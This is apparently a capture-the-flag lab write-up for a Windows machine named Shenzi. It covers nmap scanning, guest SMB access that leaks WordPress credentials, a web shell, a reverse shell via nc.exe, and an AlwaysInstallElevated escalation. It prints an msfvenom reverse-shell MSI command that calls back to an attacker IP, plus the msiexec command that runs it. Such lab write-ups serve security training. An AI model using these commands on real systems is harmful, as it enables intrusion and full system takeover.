 # Shenzi

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.55 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 13:46 +08
Nmap scan report for 192.168.201.55
Host is up (0.18s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Lots of ports here. FTP doesn't allow for anonymous access.&#x20;

### SMB Access --> WP Creds

`smbmap` shows that there are a few shares we can access:

```
$ smbmap -u guest -p '' -H 192.168.201.55            
[+] IP: 192.168.201.55:445      Name: 192.168.201.55                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IPC$                                                    READ ONLY       Remote IPC
        Shenzi                                                  READ ONLY
```

The share had a few interesting files:

```
$ smbclient -U guest //192.168.201.55/Shenzi         
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 23:45:09 2020
  ..                                  D        0  Thu May 28 23:45:09 2020
  passwords.txt                       A      894  Thu May 28 23:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 23:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 23:45:09 2020
  why.tmp                             A      213  Thu May 28 23:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 23:45:09 2020
```

`passwords.txt` contained some credentials to a Wordpress instance, while the rest of the files were rather uninteresting:&#x20;

```
$ cat passwords.txt
1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

### Web Enumeration --> WP RCE

Port 80 shows the default XAMPP page:

<figure><img src="../../../.gitbook/assets/image (94) (5).png" alt=""><figcaption></figcaption></figure>

There was a PHPInfo page that we could view for more clues.&#x20;

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

The only interesting thing to note is that the user is named `shenzi` on the machine. We need to be finding this wordpress instance. However, all directory scans failed to find any instance of `wp-content` or `wp-admin`.&#x20;

I was stuck here for a while, until I visited `/shenzi` to test, and it worked!

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

With this, we can easily login to the admin panel and replace one of the PHP files with a web shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell by downloading `nc.exe` onto the machine and executing it:

<figure><img src="../../../.gitbook/assets/image (57) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated --> SYSTEM

I ran `winPEAS.exe` to enumerate the machine for me. It picked up on AlwaysInstallElevated being misconfigured:

<figure><img src="../../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

Using this, we can generate an MSI payload using `msfvenom` and run it on the system, which would give us a reverse shell as the SYSTEM user.&#x20;

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.191 LPORT=21 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Afterwards, transfer this file over to the machine and run `msiexec` on it:

```
C:\Windows\Tasks>msiexec /quiet /qn /i shell.msi
```

This would give us a reverse shell as the SYSTEM user on a listener port:

<figure><img src="../../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>
